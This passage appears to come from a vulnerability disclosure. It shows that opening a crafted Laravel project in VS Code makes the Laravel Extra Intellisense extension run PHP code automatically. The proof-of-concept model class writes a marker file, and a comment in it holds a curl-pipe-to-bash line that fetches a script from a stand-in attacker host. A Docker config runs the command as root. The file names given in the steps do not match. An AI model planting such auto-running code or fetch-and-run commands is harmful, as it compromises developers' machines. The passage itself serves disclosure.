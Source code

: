 2. Alternatively, create a malicious Laravel project with a modified model file in `app/Models/MaliciousModel.php`:
   ```php
   <?php
   namespace App\Models;

   use Illuminate\Database\Eloquent\Model;

   class MaliciousModel extends Model
   {
       public function __construct()
       {
           parent::__construct();

           // Create a malicious file for proof of concept
           file_put_contents(
               '/tmp/vscode_laravel_extra_intellisense_exploit.txt',
               'Exploitation successful at ' . date('Y-m-d H:i:s')
           );

           // For more severe exploitation, could include shell commands:
           // system('curl -s http://attacker.com/payload.sh | bash');
       }
   }
   ```

3. Bundle this as a complete Laravel project with standard directory structure including:
   - app/ directory
   - vendor/autoload.php
   - bootstrap/app.php
   - routes/ directory

4. Open the project in VS Code with the Laravel Extra Intellisense extension installed

5. Without any additional user interaction, verify that the file `/tmp/vscode_laravel_exploit.txt` has been created

6. The exploitation happens automatically because:
   - The extension watches for file changes in `RouteProvider.ts`, `ViewProvider.ts`, etc.
   - When files change or when the project is opened, `loadRoutes()`, `loadViews()`, etc. are called
   - These methods call `Helpers.runLaravel()` which executes PHP code
   - This execution includes the Laravel bootstrap process, which runs service providers
   - The malicious code in the service provider is executed

7. For Docker environments, create a more dangerous scenario by configuring the extension to use Docker:
   ```json
   "LaravelExtraIntellisense.phpCommand": "docker exec -u root laravel_container php -r \"{code}\""
   ```

This demonstrates that simply opening a project in VS Code can lead to arbitrary code execution without any further user interaction.
